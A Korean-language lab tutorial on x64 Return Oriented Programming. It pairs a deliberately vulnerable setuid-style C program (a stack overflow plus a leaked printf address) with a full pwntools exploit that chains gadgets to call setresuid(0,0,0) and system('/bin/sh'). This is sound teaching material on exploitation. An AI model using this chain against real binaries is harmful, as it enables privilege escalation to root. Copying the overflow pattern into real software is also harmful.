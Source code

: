 # ROP(Return Oriented Programming) - x64

- ROP(x86) 에서 정리한 이론과 동일하다. 따라서 바로 실습을 할 예정이다.



## Proof of concept

### Code

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
 
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```



### Build & Permission

![image](https://user-images.githubusercontent.com/59410565/119099930-62a50a80-ba52-11eb-8c44-5ddf3c4db03b.png)



### Overflow

![image](https://user-images.githubusercontent.com/59410565/119100048-823c3300-ba52-11eb-8927-dedfbf42bcf7.png)

**[Break Point]**

- vuln+0 : vuln 함수 코드 첫 부분
- vuln+68 : read() 함수 호출 전

![image](https://user-images.githubusercontent.com/59410565/119100338-cdeedc80-ba52-11eb-821a-6fd89c716116.png)

![image](https://user-images.githubusercontent.com/59410565/119100528-01316b80-ba53-11eb-8530-a9739248ec35.png)

![image](https://user-images.githubusercontent.com/59410565/119100565-0bec0080-ba53-11eb-8dd2-3c75d76e9ea4.png)

- Return address(0x7ffd9dab8c10) - buf 변수의 시작 주소(0x7ffd9dab8c10) = 72
- 즉, 72개 이상의 문자를 입력함으로써, Return address 영역을 변조할 수 있다.



## Exploit

#### Exploit 순서

1. setresuid 함수를 이용해 권한을 root(0)으로 변경
2. system 함수를 이용해 "/bin/sh" 실행

```python
setresuid(0, 0, 0)
system(binsh)
```



#### Payload를 구성하는데 필요한 정보

1. "/bin/sh" 문자열이 저장된 영역
2. libc offset 
   - printf
   -  system
   -  setresuid
3. 가젯의 위치
   - pop rdi, ret
   - pop rsi, ret
   - pop rdx, ret



### Find the Libc address of the "/bin/sh"

![image](https://user-images.githubusercontent.com/59410565/119102958-933a7380-ba55-11eb-863f-09df26685245.png)

![image](https://user-images.githubusercontent.com/59410565/119103024-a9483400-ba55-11eb-9c59-f5c7874a964b.png)

- 즉, "/bin/sh"의 offset은 0x18ce57이다.



### Get offset of printf, system, setresuid function

![image](https://user-images.githubusercontent.com/59410565/119103255-e6acc180-ba55-11eb-83da-1073c9f5889a.png)

- printf offset : 0x55810
- system offset : 0x453a0
- setresuid offset : 0xcd5f0



### Find gadget

> find gadgets
>
> > ROPgadget

![image](https://user-images.githubusercontent.com/59410565/119109467-27a7d480-ba5c-11eb-9b45-5c3dcd10f23c.png)

- pop rdi; ret : 0x00400843
- pop rsi; ret : 0x00400841
- rdx는 찾지 못하였다. 이런 경우 libc 파일에서 gadgets을 찾아 활용할 수 있다.

> find "pop rdx"
>
> > rp++

![image](https://user-images.githubusercontent.com/59410565/119103576-4c00b280-ba56-11eb-9d6c-26bb4e81df80.png)

- 해당 Exploit code에서는 0x001151c9 영역에 "pop rdx; pop rsi; ret;" 코드를 사용할 것이다. 



### Exploit Code

```python
from pwn import *
from struct import *
 
#context.log_level = 'debug'
 
#64bit OS - /lib/x86_64-linux-gnu/libc-2.23.so
libcbase_printf_offset = 0x55810
libcbase_system_offset = 0x453a0
libcbase_setresuid_offset = 0xcd5f0
 
binsh_offset = 0x18ce57
  
pop_rdi_ret = 0x00400843
pop_rsi_ret = 0x00400841
pop_rdx_ret_offset = 0x001151c9 
 
r = process('./rop')
 
r.recvn(10)
r.recvuntil('Printf() address : ')
libcbase = int(r.recvuntil('\n'),16)
libcbase -= libcbase_printf_offset
 
payload = "A"*72
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(libcbase + pop_rdx_ret_offset)
payload += p64(0)
payload += p64(0)
payload += p64(libcbase + libcbase_setresuid_offset)
 
payload += p64(pop_rdi_ret)
payload += p64(libcbase + binsh_offset)
payload += p64(libcbase + libcbase_system_offset)
 
r.send(payload)

r.interactive()
```



### Result

![image](https://user-images.githubusercontent.com/59410565/119110172-d2b88e00-ba5c-11eb-81e8-bd92ec4e1261.png)

